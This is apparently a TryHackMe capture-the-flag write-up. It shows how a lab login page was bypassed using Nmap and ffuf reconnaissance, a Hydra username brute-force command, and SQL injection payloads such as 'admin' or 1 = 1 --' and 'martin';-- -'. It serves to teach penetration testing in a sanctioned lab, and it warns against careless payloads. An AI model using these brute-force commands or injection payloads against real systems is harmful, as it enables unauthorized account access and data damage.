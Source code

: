 ## Introduction
This is a simple machine from Try Hack Me that teaches us how to use injection payloads carefully and the consequences of using them without precaution.
## Initial Recon
As mentioned in the description, we only have a login page on the machine that we need to bypass to retrieve our flag. However, it is also mentioned to treat this machine as a real target. So, we will proceed with this as a normal CTF.

A quick `Nmap` scan for port scanning:
```
nmap <target_ip>
```
Result:
```
Nmap scan report for 10.10.85.240
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 56.40 seconds
```

A deep scan for services and versions:
```
nmap -A -p22,80 <target_ip>
```
Result:
```
Nmap scan report for 10.10.85.240
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 2e:54:89:ae:f7:91:4e:33:6e:10:89:53:9c:f5:92:db (RSA)
|   256 dd:2c:ca:fc:b7:65:14:d4:88:a3:6e:55:71:65:f7:2f (ECDSA)
|_  256 2b:c2:d8:1b:f4:7b:e5:78:53:56:01:9a:83:f3:79:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Lesson Learned?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.69 seconds
```

Visit the web page at `http://<target_ip>:80/`:
![Pasted image 20231126131536](https://github.com/Itskmishra/tryhackme-writeups/assets/141756495/131dd429-3f69-4d19-8cc8-9914b6762457)


This is a simple login page. So now let's run a directory fuzzing attack to know if there are any interesting paths.

Dir fuzzing with `ffuf`:
```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<target_ip>/FUZZ
```
Result:
```
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 212ms]
                                [Status: 200, Size: 1223, Words: 35, Lines: 32, Duration: 2475ms]
.htpasswd             [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3619ms]
.hta                         [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 656ms]
index.php              [Status: 200, Size: 1223, Words: 35, Lines: 32, Duration: 643ms]
manual                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 352ms]
server-status        [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 162ms]
```

At `index.php`, there is the login page, `manual` is the default manual page of the Apache server, and `server-status` is inaccessible. There is nothing else on the page except the login form. As a result, we can only attempt authentication attacks. First, we need to understand that we don't have any usernames or passwords to start with. Let's try our basic SQL injection to attempt to bypass it. 

SQL injection payload:
```
Username: admin' or 1 = 1 --
Password: password
```
After injecting this payload, it shows a message to us.

![Pasted image 20231126133201](https://github.com/Itskmishra/tryhackme-writeups/assets/141756495/079fba70-ec2d-4872-8d68-d337c79d23db)


Let's restart the machine and try something else. Upon entering an incorrect username and password, we receive a message that reads `Invalid username and password`.

We now understand that we cannot use regular payloads on this login form. However, we do know that it is vulnerable to SQL injection. Therefore, we will need to find some good payloads that can help us bypass the form. After conducting some research, we found the following:

> Auth Bypass: admin'; -- -
> SELECT * FROM users WHERE username = 'admin'; -- -' AND password = 'password'


This is a harmless payload that won't cause any damage to data. It might also help us bypass the form. Let's test if it works or not by entering the following details:

```
username: admin ' -- -
password: password
```

We received the same response, which means maybe the user "admin" doesn't exist in the table. Let's execute a brute force attack to enumerate usernames since there is a possibility that the invalid message will change if we enter the correct payload. 

For this, we'll be using "Hydra" and "SecLists". If we receive a different response message while using the correct username, we will be able to bypass this form.

Here's the command for the Hydra brute force attack:

```
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p password <target_ip> http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
```

Result:

![Pasted image 20231126135835](https://github.com/Itskmishra/tryhackme-writeups/assets/141756495/4e41cc9d-936d-4b26-8247-901b4113e1be)

We are able to find some usernames in the result.

Let's test whether these usernames are valid by entering the username found in the result of Hydra with a random password. I am using 'martin' as the username and 'password' as the password. 

Response:

![Pasted image 20231126135901](https://github.com/Itskmishra/tryhackme-writeups/assets/141756495/bc5e9a3b-d446-4c17-81b2-6def86304751)


So now we have found a valid username, let's test our payload with this username:

Payload:
```
Username: martin';-- -
Password: password
```

Yay! We were able to bypass the login form and find our flag.
![Pasted image 20231126140301](https://github.com/Itskmishra/tryhackme-writeups/assets/141756495/6540c614-6aee-4e1d-b073-b5c0bbeb89df)


## Conclusion
This machine is very informative to me because it is used to inject regular SQL payloads with every login form. However, I have come to realize that injecting harmful SQL payloads can cause a lot of damage to the target, and it is not a good practice for penetration testing. From now on, I will think twice before using payloads.
